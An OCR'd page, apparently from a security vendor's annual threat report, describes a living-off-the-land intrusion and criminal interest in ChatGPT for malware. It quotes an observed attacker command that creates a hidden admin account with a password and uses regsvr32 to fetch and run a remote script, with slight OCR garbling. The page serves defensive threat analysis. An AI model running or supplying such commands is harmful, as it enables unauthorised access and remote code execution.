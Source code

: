 cmd c neti user admin$ Zxcvbnm1234 ad\&neti localgroup 
administrators admin$ ad\&neti localgroup
administradores admin$ ad\&regsvr32 s u n 
1:hxxp:139\.5\.177\.19:8019blue.txt scrobj.dll
This activity was initiated by the system account on the host 
"\[redacted]". The command created a new user admin$ with a specified 
password. It added this user to two administrator groups. It then used 
regsvr32 to execute a script from a remote server. Shortly after, another 
process event was identified where regsvr32\.exe allowed local execution 
of remotely hosted content, potentially indicating an attempt to bypass 
application whitelisting.
The command line used for this event was:
regsvr32 s u n i:hxxp:139\.5\.177\.19:8019blue.txt scrobj.dll
This activity also originated from the system account on the
same host.
42
State of the Threat: A Year in Review \| 8th Edition
LOTL techniques can be used in multiple IT environments, 
including on\-premises, cloud, hybrid, Windows, Linux, and macOS 
environments. Defense strategies that rely only on signature\-based 
monitoring and detection, without the benefit of threat intelligence 
derived from real world observations of adversary behavior, can fail 
to identify the use of these techniques. Blanket allow policies for 
common, legitimate, IT administrative tools already in use in the 
environment expand the attack surface and make life easier for 
adversaries. Reviewing and understanding detection best practices, 
as laid out in the CISA guidance paper, are essential, especially for 
organizations in critical infrastructure sectors.
Artificial Intelligence
Use Continues to Grow
Over the past year, organizations increasingly integrated AI tools 
into their workflows, and AI software filtered into mainstream 
use. As AI tools become more widespread and readily accessible, 
cybercriminals have inevitably taken note, as they look for new ways 
to evolve their TTPs.
Since mid\-February 2023, Secureworks CTU researchers observed 
an increase in posts on underground forums regarding the OpenAI 
ChatGPT chatbot and the various ways it could be employed for 
criminal use. ChatGPT is a large language model (LLM) from the 
generative pre\-trained transformer (GPT) family. It is trained on a 
massive dataset of text sources to generate human\-like responses to 
natural language input. As a language model, ChatGPT can be used 
in a wide range of applications, including customer service, chatbots, 
and personal assistants. It can also be leveraged for malicious 
purposes such as phishing attacks, malware development, and 
spreading misinformation.
Many security researchers have conducted experiments to push the 
boundaries of what ChatGPT can do in terms of code development 
and malware creation. This research has included leveraging ChatGPT 
in the development of polymorphic malware62 to evade security 
products and attempting 'linguisto\-morphism'63 to exploit the 
ambiguity of natural language and how ChatGPT reformulates 
language during code creation.
Letter From Our VP
Executive Summary 
and Key Findings
Chapter 1: Despite Law
Enforcement Gains, Cybercrime 
Continues to Flourish
Chapter 2: Notable Trends
in Tactics, Techniques,
and Procedures
Chapter 3: Hacktivism Flourishes
Chapter 4: State\-Sponsored